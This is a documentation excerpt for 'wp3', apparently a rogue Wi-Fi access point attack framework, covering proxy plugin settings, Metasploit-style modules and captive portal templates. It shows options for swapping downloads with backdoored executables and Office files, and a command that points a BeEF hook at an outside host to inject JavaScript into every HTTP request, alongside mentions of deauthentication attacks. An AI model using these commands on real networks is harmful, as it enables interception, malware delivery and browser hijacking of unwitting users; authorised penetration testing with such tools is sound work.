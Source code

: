 The example above is for enable/disable a plugin, but you can use same sintax to configure plugin paramenter. you can see this paramenter typing `info proxy_name` or using type like this example bellow, using `tab` to autocomplete.

```bash
wp3 > set pumpkinproxy.
pumpkinproxy.beef                            pumpkinproxy.html_inject
pumpkinproxy.beef.url_hook                   pumpkinproxy.html_inject.content_path
pumpkinproxy.downloadspoof                   pumpkinproxy.js_inject
pumpkinproxy.downloadspoof.backdoorExePath   pumpkinproxy.js_inject.url
pumpkinproxy.downloadspoof.backdoorPDFpath   pumpkinproxy.no-cache
pumpkinproxy.downloadspoof.backdoorWORDpath  pumpkinproxy.replaceImages
pumpkinproxy.downloadspoof.backdoorXLSpath   pumpkinproxy.replaceImages.path
wp3 > set pumpkinproxy.
```

let now set `url_hook` parameter the plugin beef to inject javascript in all request http.

```bash
wp3 > set pumpkinproxy.beef.url_hook http://172.16.149.141:3000/hook.js
```

Proxies developers and users are welcome to include your proxy into this project, take a look the guidelines [how to create a proxy](#development).

### Modules

A module provides a features that not is necessary to use with access point, the must modules are projected for add a new functionality into attack, like `devices discovery`, `services enumeration`, `perform deauthentication attacks` and etc.  Modules are introduced to add more functionalities to complement the attack. 

{% include alert.html type="info" content="the syntax of modules basically follow the struct the modules of `metasploit`" %}

The basic core command guidelines:

| commands | descriptions | 
|:-----------|:------------|
set  | set options for module
back  | go back one level
help  | show avaliable commands 
options  | show options of current module
run  | execute module

Modules developers and users are welcome to include your module into this project, take a look the guidelines [how to create a module](#development).

### Development

#### captiveflask
Developing extra captive portals for captiveflask plugins

#### extra-captiveflask repository
the wp3 now have an extra-captiveflask templates for community send all your customs captiveflask templates. this is awesome, because all users can do download and use your custom template. checkout the docs bellow:
